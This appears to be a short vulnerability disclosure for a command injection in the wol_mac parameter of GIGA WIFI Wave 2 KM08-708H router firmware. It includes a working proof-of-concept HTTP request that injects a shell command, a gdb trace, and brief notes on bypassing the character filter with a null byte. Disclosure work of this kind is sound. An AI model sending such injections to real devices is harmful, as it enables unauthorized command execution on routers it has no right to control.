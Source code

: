 Affected Versions:

GIGA WIFI Wave 2 - KM08-708H - v1.1
![](image/508244ea57bb91b1498a8d1558e9ca9c.png)

Command injection:

There is a command injection vulnerability in the function mcr_setWol. In line 9, the value of the Var variable is the wol_mac parameter, and in line 10, only length filtering is performed on Var before it is concatenated with v5 and executed directly as system, resulting in a command injection.

![](image/12efce9c519498d624e7b7aa4c8acd1e.png)

Firmware Emulation Vulnerability Testing:

![](image/3d1f21e5296e30b209e9e1112562ba64.png)
![](image/77e81d1c479ba0a2694e195d0fb2ebd5.png)

poc：
```
http://172.30.1.254:8899/goform/mcr_setWol?wol_mac=ls>/tmp/bbaa1.txt&redirect_url=/new/UserFolder/3_6_2_wakeonlan.asp
```




gdb动调：
jalr $t9 为call system() 参数A0：“/bin/wol -b -i br0 ls>/tmp/bbaaa.txt” 
![](image/72aaf2a5c9b25f4101b88c41fa76cff3.png)

IDA逆向发现对以下字符过滤：
![](image/1f6841e6ef2c202e007a593d5f6c826e.png)
![](image/d5df280c8ea682e00df99ac1fa20bd9b.png)
![](image/602c5f6c9a1b516339e6ad5ba658cd8e.png)strlen可以\x00绕过 应该还有个栈溢出